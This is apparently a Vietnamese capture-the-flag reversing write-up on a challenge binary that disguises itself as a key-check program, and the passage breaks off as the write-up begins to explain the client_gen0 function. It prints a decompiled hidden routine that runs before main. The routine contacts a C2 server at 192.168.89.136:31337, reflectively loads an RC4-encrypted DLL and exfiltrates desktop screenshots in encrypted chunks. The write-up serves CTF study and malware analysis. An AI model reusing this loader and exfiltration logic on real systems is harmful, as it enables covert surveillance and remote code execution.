## reversing/Trust Me

### 0x00 TL;DR

- Hàm `main()` bắt người chơi đi giải hệ phương trình số chính phương 64 ký tự. Khi giải ra đúng key (`P1kAlMiG2Kb7...`), chương trình chỉ giải mã ra ảnh chú gấu trúc meme troll người chơi (`likeFlag.jpg`).
- Trước khi hàm `main()` chạy, mã độc được kích hoạt ngầm thông qua bảng khởi tạo `_initterm` để kết nối tới C2 Server (`192.168.89.136:31337`). Nó gửi một Token ngẫu nhiên (frame 9 trong pcap), kéo một file DLL mã hóa về nạp thẳng vào RAM (Reflective DLL Injection), và chụp ảnh toàn bộ màn hình Desktop của tác giả (~22.1 MB).
- Ảnh màn hình được chia thành 22 chunks. Mỗi khối được mã hóa RC4 bằng một khóa được sinh từ 4 hàm biến đổi trong DLL (`gen0` → `gen3`) do Server chỉ định. Phân tích các lệnh trong file `record.pcapng`, ta giải mã được thành từng bức ảnh nhỏ và ghép lại để có ảnh màn hình `screenshot.bmp`.

### 0x01 Overview

Đề bài cho chúng ta một tệp `TrustMe.rar` có chứa 2 file bao gồm: `record.pcapng` và `TrustMe.exe`.  Vì có file `.pcapng` nên mình đoán đây sẽ là một challenge rev dựa trên nội dung trao đổi giữa client và server. Như vậy, khả năng cao trong file `.exe` sẽ có những hàm như: `connect()`, `send()`, `recv()`, …



Bỏ file `.exe` vào DIE, ta thấy đây là một con PE32 với section resource có entropy khá cao (7.99), đồng nghĩa với việc dữ liệu trong đấy đã bị encrypt.  



Sử dụng chức năng Resources trong DIE, có 2 resources mang **ID 101** và **105**, được đặt tên là **JPGENC**, gợi ý cho ta đây là hình ảnh đã bị mã hóa. 



Mở IDAPRO file `.exe`, kiểm tra tab Strings, ta thấy có một số chuỗi liên quan tới host, port, image path và input key. 



### 0x02 Reversing TrustMe.exe

Xref theo chuỗi `Input key`, ta thấy nó xuất hiện ngay phía dưới hàm `main()`. Nhìn sơ qua, ta thấy nội dung hàm `main()` khá ngắn. Nó thực hiện `memset()` → gọi antidebug → cố tình gây ra exception (do truy cập vào ô nhớ [0]).  

Vậy câu hỏi đầu tiên được đặt ra là: **“Hàm nào chịu trách nhiệm handle exception?”**. Sau một hồi tìm kiếm thì mình vẫn chưa xác định được hàm handle nên tạm note lại và đi phân tích tiếp các hàm còn lại. 



#### 1. sub_FE33C0: get image resource 105

Ở trong hàm `main()`, nếu chúng ta debug sẽ bị chương trình phát hiện và gọi hàm `3C0()`. Hàm này thực hiện tuần tự các công việc: tìm resource có ID = 105 → decrypt RC4 với key `imSoSad` → hiển thị ảnh.  



Dump resource trong DIE ra, lưu với tên `jpg105.bin` và decrypt với script sau: 

```c
from Crypto.Cipher import ARC4

key = "imSoSad".encode("latin1")
with open("jpg105.bin", "rb") as f:
    enc_data = f.read()

cipher = ARC4.new(key)
dec_data = cipher.decrypt(enc_data) 

with open("105.jpg", "wb") as f:
    f.write(dec_data)
```

Kết quả thu được là một bức ảnh. Vậy ta có thể hình dung chức năng hàm này đang chặn chức năng debug.  


#### 2. sub_FE34F0: get image resource 101

Quan sát ở tab Strings những chuỗi quan trọng, ta thấy ngoài chuỗi `%s\\stopDebug.jpg` liên quan tới hàm `3C0()` vừa phân tích thì vẫn còn chuỗi `%s\\likeFlag.jpg`. Xref theo chuỗi này ta tới được hàm `4F0()`. 

Một loạt `target_value` được khởi tạo, sau đó kiểm tra input bằng thuật toán: 

- $\text{input}[0] == \text{'P'}$
- Với `i` chẵn ( i = 2, 4, 6, … ):
    
    $$
    (\text{input}[i-1]-\text{input}[i])^2 == \text{target}[i-1] \Rightarrow \text{input}[i] = \text{input}[i-1] \pm \sqrt{\text{target}[i-1]} 
    
    $$
    
- Với `i` lẻ ( i = 1, 3, 5, … ):

$$
(\text{input}[i-1] + \text{input}[i])^2 == \text{target}[i-1] \Rightarrow \text{input}[i] = \sqrt{\text{target}[i-1]} - \text{input}[i-1]
$$



Sau khi tìm ra input, nó sẽ được dùng để làm key decrypt RC4 dữ liệu ở resource có ID = 101 



Mình lấy toàn bộ data của `target_value`, viết một script nhỏ dùng đệ quy để tìm hết toàn bộ chuỗi input và decrypt data resource

```c
import math
from Crypto.Cipher import ARC4

def find_input():
    targets = [
        16641, 3364, 29584, 1849, 34225, 784, 30976, 441, 15625, 529, 
        23409, 225, 36864, 1764, 17689, 3969, 37249, 784, 16900, 225, 
        19321, 361, 14884, 225, 27556, 676, 11449, 2401, 22500, 4, 
        12996, 2209, 46225, 9, 45369, 2500, 27225, 484, 25921, 400, 
        24025, 81, 48841, 144, 44521, 1, 52900, 1444, 28561, 169, 
        22500, 1521, 42849, 100, 52900, 1600, 34596, 36, 29241, 36, 
        17956, 9, 18225
    ]

    roots = [math.isqrt(t) for t in targets]
    for i, (t, r) in enumerate(zip(targets, roots)):
        assert r * r == t

    solutions = []

    def solve(index, current_path):
        if index > len(targets):
            solutions.append("".join(chr(c) for c in current_path))
            return

        prev = current_path[-1]
        root = roots[index - 1]

        if index % 2 == 1:
            # input[i] = root - input[i-1]
            curr = root - prev
            if 32 <= curr <= 126: 
                solve(index + 1, current_path + [curr])
        else:
            # input[i] = input[i-1] - root 
            # input[i] = input[i-1] + root
            for curr in (prev - root, prev + root):
                if 32 <= curr <= 126:
                    solve(index + 1, current_path + [curr])

    solve(1, [ord("P")])

    for idx, s in enumerate(solutions, 1):
        print(f"[{idx}]: {s}")

def decrypt_jpg(input):
    key = input.encode("latin1")
    with open("jpg101.bin", "rb") as f:
        enc_data = f.read()

    cipher = ARC4.new(key)
    dec_data = cipher.decrypt(enc_data) 

    if dec_data.startswith(b"\xff\xd8\xff"):
        with open("101.jpg", "wb") as f:
            f.write(dec_data)
        print(f"OK: {input}")

if __name__ == "__main__":
    find_input()
    # P1kAlMiG2Kb7FzP5tM1QBI6DSS92c31Apgjk9lVK7dmpdonxRWd2YvlzRhbICCFA
    # P1kAlMiG2Kb7FzP5tM1QBI6DSS92c31Apgjk9lVK7dmpdonxRWd2YvlzRhbIO74S
    # P1kAlMiG2Kb7FzP5tM1QBI6DSS92c31Apgjk9lVK7dmpdopvPYf0WxnxPjdGAEBE
    # P1kAlMiG2Kb7FzP5tM1QBI6DSS92c31Apgjk9lVK7dmpdopvPYf0WxnxPjdGM96Q

    x = ["P1kAlMiG2Kb7FzP5tM1QBI6DSS92c31Apgjk9lVK7dmpdonxRWd2YvlzRhbICCFA", 
         "P1kAlMiG2Kb7FzP5tM1QBI6DSS92c31Apgjk9lVK7dmpdonxRWd2YvlzRhbIO74S",
         "P1kAlMiG2Kb7FzP5tM1QBI6DSS92c31Apgjk9lVK7dmpdopvPYf0WxnxPjdGAEBE", 
         "P1kAlMiG2Kb7FzP5tM1QBI6DSS92c31Apgjk9lVK7dmpdopvPYf0WxnxPjdGM96Q"]

    for i in x: 
        decrypt_jpg(i)
    # OK: P1kAlMiG2Kb7FzP5tM1QBI6DSS92c31Apgjk9lVK7dmpdonxRWd2YvlzRhbIO74S
```

Kết quả là một bức ảnh không có nhiều ý nghĩa, input chính xác là `P1kAlMiG2Kb7FzP5tM1QBI6DSS92c31Apgjk9lVK7dmpdonxRWd2YvlzRhbIO74S`.


#### 3. sub_FE3010: main activity function

Xref các string còn lại: `192.168.89.136` và `31337`, ta tới được hàm `010()`. Hàm này được gọi bởi hàm cha `340()` - là một hàm được đăng ký trong function table do `__scrt_common_main_seh()` xử lý. 



Do hàm `010()` được chạy trước cả hàm `main()`, mình chỉ cần đặt breakpoint ngay đầu hàm rồi debug để lấy tên các WinAPI. Tất cả được rename sơ bộ như sau: 

```c
int sub_FE3010()
{
  char *buf_from_server; // ebx
  int ConsoleWindow; // eax
  int ws232_fn; // esi
  int v3; // eax
  PADDRINFOA *v4; // edi
  int (__cdecl *getaddrinfo)(const char *, const char *, int, void *); // eax
  int v6; // eax
  PADDRINFOA v7; // eax
  int v8; // eax
  int ConnectSocket; // ecx
  int v10; // eax
  int v11; // eax
  int v12; // esi
  int v13; // eax
  int token_1_len; // esi
  _BYTE *token_1; // eax
  int *p_payload_sz; // esi
  int v17; // edi
  BYTE *payloadd; // edi
  int size_of_buf2; // esi
  int v20; // ebx
  payload_struct *p_payload; // edi
  _BYTE *tokenn; // eax
  payload_struct *v23; // esi
  char **v24; // eax
  const char *tokennn; // eax
  int v26; // eax
  int tokenn_len; // [esp-14h] [ebp-A8h]
  BYTE *payload; // [esp-10h] [ebp-A4h]
  unsigned int v30[7]; // [esp+8h] [ebp-8Ch] BYREF
  unsigned int token_len[4]; // [esp+24h] [ebp-70h] BYREF
  char v32[32]; // [esp+34h] [ebp-60h] BYREF
  int v33; // [esp+54h] [ebp-40h]
  const char *c2_ip; // [esp+64h] [ebp-30h]
  const char *c2_port; // [esp+68h] [ebp-2Ch]
  int v36; // [esp+6Ch] [ebp-28h]
  void *v37; // [esp+70h] [ebp-24h]
  int v38; // [esp+74h] [ebp-20h]
  size_t v39; // [esp+78h] [ebp-1Ch]
  int v40; // [esp+8Ch] [ebp-8h]
  int savedregs; // [esp+94h] [ebp+0h] BYREF

  malloc(8u);
  capture_screen((int)&savedregs);
  v40 = 4;
  buf_from_server = (char *)malloc(0x14u);
  v39 = 716;
  v38 = 0;
  v37 = dword_1000398;
  *(_OWORD *)buf_from_server = 0;
  *((_DWORD *)buf_from_server + 4) = 0;
  memset(v37, v38, v39);
  ConsoleWindow = fn_GetConsoleWindow(0);
  fn_ShowWindow(ConsoleWindow);                 // hide console window
  ws232_fn = load_ws232_fn();
  v3 = (*(int (__cdecl **)(int, int))(ws232_fn + 456))(514, ws232_fn);// WSAStartup(514,v2)
  *(_DWORD *)(ws232_fn + 444) = v3;
  if ( v3 )
    ExitProcess(1u);
  *(_DWORD *)(ws232_fn + 412) = 0;
  v4 = (PADDRINFOA *)(ws232_fn + 404);
  *(_DWORD *)(ws232_fn + 428) = 0;
  *(_DWORD *)(ws232_fn + 432) = 0;
  v37 = (void *)(ws232_fn + 404);
  *(_DWORD *)(ws232_fn + 436) = 0;
  v36 = ws232_fn + 412;
  *(_DWORD *)(ws232_fn + 440) = 0;
  getaddrinfo = *(int (__cdecl **)(const char *, const char *, int, void *))(ws232_fn + 460);
  c2_port = "31337";
  c2_ip = "192.168.89.136";
  *(_DWORD *)(ws232_fn + 416) = 0;
  *(_DWORD *)(ws232_fn + 420) = 1;
  *(_DWORD *)(ws232_fn + 424) = 6;
  v6 = getaddrinfo(c2_ip, c2_port, v36, v37);   // getaddrinfo
  *(_DWORD *)(ws232_fn + 444) = v6;
  if ( v6 )
    goto LABEL_4;
  v7 = *v4;
  *(_DWORD *)(ws232_fn + 408) = *v4;
  if ( v7 )
  {
    while ( 1 )
    {
      v8 = (*(int (__cdecl **)(int, int, int))(ws232_fn + 464))(v7->ai_family, v7->ai_socktype, v7->ai_protocol);// socket()
      v33 = 4;
      *(_DWORD *)(ws232_fn + 400) = v8;
      (*(void (__cdecl **)(int, int, int, int, int))(ws232_fn + 468))(v8, 0xFFFF, 4101, ws232_fn + 452, v33);// setsockopt()
      ConnectSocket = *(_DWORD *)(ws232_fn + 400);
      if ( ConnectSocket == -1 )
        break;
      v10 = (*(int (__cdecl **)(int, _DWORD, _DWORD))(ws232_fn + 476))(// connect(0x1c0,...)
              ConnectSocket,
              *(_DWORD *)(*(_DWORD *)(ws232_fn + 408) + 24),
              *(_DWORD *)(*(_DWORD *)(ws232_fn + 408) + 16));
      *(_DWORD *)(ws232_fn + 444) = v10;
      if ( v10 == -1 )
      {
        (*(void (__cdecl **)(_DWORD))(ws232_fn + 480))(*(_DWORD *)(ws232_fn + 400));// closesocket()
        v11 = *(_DWORD *)(ws232_fn + 408);
        *(_DWORD *)(ws232_fn + 400) = -1;
        v7 = *(PADDRINFOA *)(v11 + 28);
        *(_DWORD *)(ws232_fn + 408) = v7;
        if ( v7 )
          continue;
      }
      goto LABEL_9;
    }
LABEL_4:
    (*(void (**)(void))(ws232_fn + 472))();     // WSACleanup()
    ExitProcess(1u);
  }
LABEL_9:
  freeaddrinfo(*v4);
  if ( *(_DWORD *)(load_ws232_fn() + 400) != -1 )// connect ok
  {
    v12 = load_ws232_fn();
    if ( !(*(int (__cdecl **)(_DWORD, char *, int, _DWORD))(v12 + 488))(*(_DWORD *)(v12 + 400), buf_from_server, 512, 0) )// recv(512)
    {
      *(_DWORD *)(v12 + 400) = 0;
      *(_BYTE *)(v12 + 496) = 0;
    }
    v13 = load_ws232_fn();
    (*(void (__cdecl **)(_DWORD, char *, int, _DWORD))(v13 + 484))(*(_DWORD *)(v13 + 400), v32, 1, 0);// send(1)
    token_len[0] = strlen(gen_64_byte_token((int)&savedregs));
    rc4_send((int)token_len, 4, buf_from_server);// send_rc4(len(token))
    token_1_len = strlen(gen_64_byte_token((int)&savedregs));
    token_1 = gen_64_byte_token((int)&savedregs);
    rc4_send((int)token_1, token_1_len, buf_from_server);// send_rc4(token)
    p_payload_sz = &::payload->payload_sz;
    v17 = load_ws232_fn();
    if ( !(*(int (__cdecl **)(_DWORD, int *, int, _DWORD))(v17 + 488))(*(_DWORD *)(v17 + 400), p_payload_sz, 4, 0) )// recv(4), recv size of data from server
    {
      *(_DWORD *)(v17 + 400) = 0;
      *(_BYTE *)(v17 + 496) = 0;
    }
    payloadd = (BYTE *)malloc(::payload->payload_sz);
    size_of_buf2 = ::payload->payload_sz;
    ::payload->payload = payloadd;
    v20 = load_ws232_fn();
    if ( !(*(int (__cdecl **)(_DWORD, BYTE *, int, _DWORD))(v20 + 488))(
            *(_DWORD *)(v20 + 400),
            payloadd,
            size_of_buf2,
            0) )                                // recv(payload)
    {
      *(_DWORD *)(v20 + 400) = 0;
      *(_BYTE *)(v20 + 496) = 0;
    }
    tokenn_len = strlen(gen_64_byte_token((int)&savedregs));
    p_payload = ::payload;
    payload = ::payload->payload;
    tokenn = gen_64_byte_token((int)&savedregs);
    rc4((int)p_payload->payload, p_payload->payload_sz, (int)tokenn, tokenn_len, payload);// rc4 decrypt dll
    v23 = ::payload;
    v24 = sub_FE1F00((_DWORD *)p_payload->payload, p_payload->payload_sz);
    v23->p_payload = v24;
    if ( !v24 )
      sub_FE1600("Can't load library from memory.\n");
    if ( !::payload->p_payload )
    {
      _loaddll((char *)0xFFFFFFFF);
      JUMPOUT(0xFE33B3);
    }
    dword_1000394 = (int)capture_screen((int)&savedregs);
    v30[0] = *(_DWORD *)dword_1000394 / (unsigned int)dword_FFF8B0;
    tokennn = gen_64_byte_token((int)&savedregs);
    rc4_send((int)v30, 4, tokennn);             // rc4_send(?), 4 bytes
  }
  fn_RtlAddVectoredExceptionHandler(1, handle_exception);
  v26 = fn_GetConsoleWindow(5);
  fn_ShowWindow(v26);
  return 0;
} 
```

Luồng hoạt động của hàm `010()` được tóm tắt như sau: 

| **Client** | **Server** |
| --- | --- |
| 1. Gọi `WSAStartup`, phân giải tên miền/IP `192.168.89.136`, cổng `31337`. |  |
| 2. Tạo kết nối tới C2 server. |  |
|  | 3. Gửi 512 bytes về cho client, gọi là `buf`.  |
| 4. Gửi 1 byte ACK tới server.  |  |
| 5. Sinh `token` dài 64 bytes (token chỉ được tạo ra 1 lần duy nhất) |  |
| 6. Mã hóa độ dài `token` bằng RC4 với key = `buf`, rồi gửi tới server 4 bytes độ dài `token`.  |  |
| 7. Gửi tiếp `token` đã bị mã hóa bằng RC4 với key như trên.  |  |
|  | 8. Gửi về 4 byte kích thước của dll. |
|  | 9. Gửi tiếp nội dung của dll đã bị mã hóa. |
| 10. Decrypt dll bằng thuật toán RC4 với key = `token` và load dll vào bộ nhớ. |  |
| 11. Gửi 4 bytes (mình k biết chắc chắn là gì) đã bị mã hóa RC4 lên server, gọi là `x`.  |  |

Tiếp theo, hàm `fn_RtlAddVectoredExceptionHandler()` gọi `handle_exception()`, mục đích là nhận 1 byte `option` từ server, rồi đưa vào `client_gen[option]()` xử lý. Đây cũng chính là hàm mà mình đã đặt câu hỏi ở đầu bài toán: “hàm handle exception nằm ở đâu?”. 



Trong từng hàm `client_gen[option]()`, nó gọi `gen[option]()` từ dll, và biến đổi `token` theo các hàm đó.  Sau đó, nó mã hóa các chunk ảnh bằng RC4 bởi `new_token`, gửi lần lượt size và data của các chunk ảnh (đã bị mã hóa) lên server. Lấy ví dụ đây là hàm `client_gen0()`

